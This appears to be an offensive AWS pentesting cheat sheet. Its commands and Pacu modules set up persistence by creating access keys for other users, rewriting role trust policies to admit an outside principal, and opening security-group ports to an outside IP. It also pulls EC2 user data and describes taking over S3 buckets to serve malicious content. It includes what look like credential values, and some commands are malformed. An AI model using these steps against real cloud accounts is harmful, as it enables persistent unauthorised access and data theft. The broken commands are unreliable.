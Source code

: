## General
### Access key and Secret key:
```
aws configure
aws configure --profile Test
aws sts get-caller-identity --profile Test
```

### PACU
```
import_keys Test
ls
whoami
run iam__enum_permissions
run aws__enum_spend
```

## Maintain persistence
### Identify user with 0 or 1 access key (need iam:CreateAccessKey)
```
aws iam list-users --profile Test
aws iam list-access-keys --user-name Sarah --profile Test
aws iam create-access-key --user-name Sarah --profile Test
# Or run PACU command
run iam__backdoor_users_keys
```

### User with iam update-assume-role-policy
Identify non-service-link role
```
aws iam a list-roles --profile Test
```
Change the trust-policy
```
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Allow",
      "Principal": {
        "Service": "ec2.amazonaws.com",
        "AWS": "arn:aws:iam::593820606366:user/vitquay-nonroot"
      },
      "Action": "sts:AssumeRole"
    }
  ]
}
```
Update and assume role
```
aws iam update-assume-role-policy --role-name test-role --policy-document file://trust-policy.json --profile Test
aws sts assume-role --role-arn arn:aws:iam::748384263101:role/test-role --role-session-name PersistenceTest --profile vitquaynonroot
# Or just use PACU
run iam__backdoor_assume_role --role-names Admin --user-arns arn:aws:iam::012345678912:root
```
Change .aws/credentials file
```
[PersistenceTest2]
aws_access_key_id = ASIA24PZNTO6525L54XY
aws_secret_access_key = SVbH0B5VKQU9VHUJKSKfqdZZcIThAOfkOgjyH3Cm
aws_session_token = <SHORTENED>
```

### Allow port in EC2
```
aws ec2 describe-instances --profile Test
aws ec2 describe-security-groups --group-ids sg-0315cp741b51fr4d0 --profile Test
aws ec2 authorize-security-group-ingress --group-id sg-0315cp741b51fr4d0 --protocol tcp --port 27017-27018 --cidr 1.1.1.1/32
# Or using PACU
run ec2__backdoor_ec2_sec_groups --ip 1.1.1.1/32 --port-range 27017-27018 --protocol tcp --groups corp@us-west-2
```

## EC2
10.0.1.1 is reserved for the gateway of the subnet, 10.0.1.2 is
reserved for AWS DNS, and 10.0.1.3 is reserved for any future use by
AWS.

Look for hardcoded user data
```
run ec2__enum
run ec2__download_userdata
```
## S3
### awscli commands
```
aws s3 ls s3://kirit-bucket
aws s3 cp abc.txt s3://kirit-bucket/new/abc.txt
aws s3 rm s3://kirit-bucket/new/abc.txt --acl public-read
```

### NoSuchBucket message
- Check CNAME record for the bucket name
- Create S3 bucket with the same name and region
- Deploy malicious content

## Lambda
